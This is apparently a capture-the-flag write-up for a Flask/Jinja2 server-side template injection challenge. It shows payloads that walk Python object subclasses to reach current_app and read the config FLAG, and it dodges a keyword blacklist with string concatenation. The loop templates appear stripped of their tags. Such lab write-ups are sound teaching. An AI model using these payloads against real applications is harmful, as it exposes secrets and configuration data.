



# Solution

1. I noticed that the `current_app` is undefined.


2. Making use of this template to get the `current_app` index in the subclasses.
```jinja

    
    
        Index {{ i }}: Found 'current_app'&NewLine;
    

```



3. After finding the index of where `current_app` is located at, make use of this template to find all of the classes that I can use to make use of `config`.
```jinja

    
    
        
            {{ i }}: {{ cls }}&NewLine;
        
    

```



4. In this case, I am making use of `flask.cli.ScriptInfo` for this writeup, you may try the others to get the `config`. Since `config` is part of the blacklist, we use concatenation to separate it and not let it get detected. We also need to avoid the flag replacement, so we slice out the **SIG24** part and just put a lowercase version at the front (this is for cosmetics sake).

```jinja
<!-- This will output nothing due to the other blacklist I made in the app.py -->
{{ ''.__class__.__mro__[1].__subclasses__()[492].__init__.__globals__['current_app']['co' + 'nfig']['FLAG'] }}
```
```jinja
<!-- This will output the flag contents :D -->
{{ 'sig24' + ''.__class__.__mro__[1].__subclasses__()[492].__init__.__globals__['current_app']['co' + 'nfig']['FLAG'][5:] }}
```
